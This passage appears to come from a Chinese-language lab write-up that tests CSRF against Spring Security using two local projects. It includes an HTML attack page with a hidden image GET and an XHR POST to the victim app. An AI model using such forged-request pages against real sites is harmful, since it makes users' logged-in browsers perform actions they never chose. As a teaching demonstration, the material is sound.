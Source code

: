 实验步骤：
1. 启动两个项目：`springboot-security`在8080端口、`spring-security-csrf`在8081端口；
2. 打开浏览器，访问`http://hello:8080`，并完成登录，访问`http://hello:8080/hello`接口，观察项目`springboot-security`后台打印输出；
3. 在同一个浏览器，访问`http://world:8081`，默认进入`index.html`，同时观察项目`springboot-security`后台打印输出；

实验结果：
1. 在同一个浏览器（此处为Firefox，Chrome内核的浏览器未成功）的不同Tab下，在`world`域名下请求`hello`域名下的GET接口/hello：`<img src="http://hello:8080/hello">`，请求成功到达源站后端，实现了CSRF：跨站请求伪造。
2. 验证了`SpringSecurity`虽然默认开启CSRF防护，但是幂等请求诸如"GET", "HEAD", "TRACE", "OPTIONS"被忽略。

### 实验2：CSRF POST攻击

在`spring-security-csrf`项目中模拟一个按钮操作，发起`POST`请求，这里采用原生`JavaScript`发起`Ajax`的`POST`请求：`http://hello:8080/ok`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
Fishing: <img src="http://hello:8080/hello">

<script language="JavaScript">
    function click() {
        let xhr = new XMLHttpRequest();
        xhr.open("POST", "http://hello:8080/ok", true);
        xhr.onload = function (e) {
            console.log("response: ", e.target);
        }
        xhr.onerror = function (e) {
            console.log("error: ", e)
        }
        xhr.send(null);
    }
    click();
</script>
</body>
</html>
```

实验步骤：
1. 启动两个项目：`springboot-security`在8080端口、`spring-security-csrf`在8081端口；
2. 打开浏览器，访问`http://hello:8080`，并完成登录，PostMan访问`http://hello:8080/ok`接口，观察项目`springboot-security`后台打印输出；
3. 在同一个浏览器，访问`http://world:8081`，默认进入`index.html`，同时观察项目`springboot-security`后台打印输出；

![2020-12-08-SpringSecurityCSRF.png](https://github.com/heartsuit/heartsuit.github.io/raw/master/pictures/2020-12-08-SpringSecurityCSRF.png)
